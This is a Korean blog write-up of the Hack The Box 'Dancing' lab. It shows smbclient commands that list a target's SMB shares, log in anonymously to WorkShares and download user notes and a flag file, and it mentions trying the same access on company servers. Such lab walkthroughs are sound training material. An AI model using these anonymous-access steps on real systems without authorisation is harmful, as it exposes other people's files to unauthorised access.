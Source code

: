 ```yaml
---
title: HTB Dancing Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox]
images:
    path: /assets/image_post/20240203134342.png
---
```

이번 문제는 SMB 관련된 기초 문제이다.
![](../assets/image_post/20240203162738.png)


SMB 관련되어 통신을 해본적이 단 한번도 없으므로 아래 내용 자체를 이해하지 못해, 검색해보았다. 그랬더니 smbclient라는 툴을 사용해야하만 하는 문제였다.
![](../assets/image_post/20240203162816.png)

smbclient 실행 시 아래의 옵션이 있으며, 리스트 확인하는 거라면 '-L'이라는 것을 알 수 있다.
``` shell
# smbclient -h

Invalid option -h: unknown option

Usage: smbclient [-?EgqBNPkV] [-?|--help] [--usage] [-M|--message=HOST] [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST] [-T|--tar=<c|x>IXFvgbNan]
        [-D|--directory=DIR] [-c|--command=STRING] [-b|--send-buffer=BYTES] [-t|--timeout=SECONDS] [-p|--port=PORT] [-g|--grepable] [-q|--quiet] [-B|--browse]
        [-d|--debuglevel=DEBUGLEVEL] [--debug-stdout] [-s|--configfile=CONFIGFILE] [--option=name=value] [-l|--log-basename=LOGFILEBASE] [--leak-report]
        [--leak-report-full] [-R|--name-resolve=NAME-RESOLVE-ORDER] [-O|--socket-options=SOCKETOPTIONS] [-m|--max-protocol=MAXPROTOCOL] [-n|--netbiosname=NETBIOSNAME]
        [--netbios-scope=SCOPE] [-W|--workgroup=WORKGROUP] [--realm=REALM] [-U|--user=[DOMAIN/]USERNAME[%PASSWORD]] [-N|--no-pass] [--password=STRING] [--pw-nt-hash]
        [-A|--authentication-file=FILE] [-P|--machine-pass] [--simple-bind-dn=DN] [--use-kerberos=desired|required|off] [--use-krb5-ccache=CCACHE]
        [--use-winbind-ccache] [--client-protection=sign|encrypt|off] [-k|--kerberos] [-V|--version] [OPTIONS] service <password>
```
실제로 연결 시도 시 아래와 같이 출력되는 것을 확인 할 수 있다.
``` shell
# smbclient -L 10.129.86.199
Password for [WORKGROUP\root]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.86.199 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
각각의 내용은 아래와 같다.


| Sharename    | Type  | Comment                    |
|--------------|-------|----------------------------|
| ADMIN$       | Disk  | 원격 관리를 위한 특별한 공유 폴더로, 시스템 관리자가 원격으로 서버를 관리하는 데 사용됩니다.               |
| C$           | Disk  | 서버의 C 드라이브에 대한 기본 공유로, 서버의 파일 시스템에 접근할 수 있도록 합니다.                         |
| IPC$         | IPC   | Inter-Process Communication(프로세스 간 통신)에 사용되는 특수한 공유 폴더로, 사용자들이 직접 접근할 필요가 없습니다. |
| WorkShares   | Disk  | 서버에서 추가로 설정된 디스크 또는 디렉토리를 나타내며, 해당 폴더의 "Disk" 타입은 파일 및 디렉토리를 공유할 수 있음을 의미합니다. "Comment"에는 해당 공유에 대한 설명이나 주석이 들어갑니다. |


문제 6번에 대한 답이 당연히 'anonymous'인줄 알았으나, 오답이였다. 힌트를 확인해보니, 위 결과에서 $가 없는 이름이 정답인듯 하다.
![](../assets/image_post/20240203163617.png)

몇 가지 검색 해보니 "$" 여부에 대한 아래의 내용을 찾을 수 있다.
> $가 없는 공유는 일반적으로 사용자에게 익명으로 접근이 허용되는 공유를 의미합니다. 예를 들어, Public 공유는 일반적으로 모든 사용자에게 열려있고, 로그인이 필요 없는 익명 공유로 간주됩니다.


이제 대상 WorkShares에는 '$' 표시가 없으므로 익명으로 접속하는 옵션인 -N을 붙여 연결을 시도하면 아래와 같이 접속이 가능하다.
``` shell
# smbclient //10.129.86.199/WorkShares -N

Try "help" to get a list of possible commands.
smb: \>
```

접속 후 어떤 파일이 있는 확인 후 아래와 같이 다운로드 할 수 있다.
``` shell
smb: \> ls
  .                                   D        0  Mon Mar 29 08:22:01 2021
  ..                                  D        0  Mon Mar 29 08:22:01 2021
  Amy.J                               D        0  Mon Mar 29 09:08:24 2021
  James.P                             D        0  Thu Jun  3 08:38:03 2021
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 09:08:24 2021
  ..                                  D        0  Mon Mar 29 09:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 11:00:37 2021
		5114111 blocks of size 4096. 1748861 blocks available

smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

``` shell
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 08:38:03 2021
  ..                                  D        0  Thu Jun  3 08:38:03 2021
  flag.txt                            A       32  Mon Mar 29 09:26:57 2021

		5114111 blocks of size 4096. 1748861 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

SMB 연결 해제 후 받아온 파일 내용을 확인하면 flag 획득이 가능하다.
```
# cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing #
#
# cat flag.txt
........
```

SMB 관련 악성코드도 분석해보고 했지만, 실제로 이렇게 SMB 연결해본 것은 처음이다. 앞으로도 사내 서버가 외부에 SMB 포트가 노출되어 있다면, 이렇게 접근해보는 것도 괜찮을 것 같다.
![](../assets/image_post/20240203165009.png)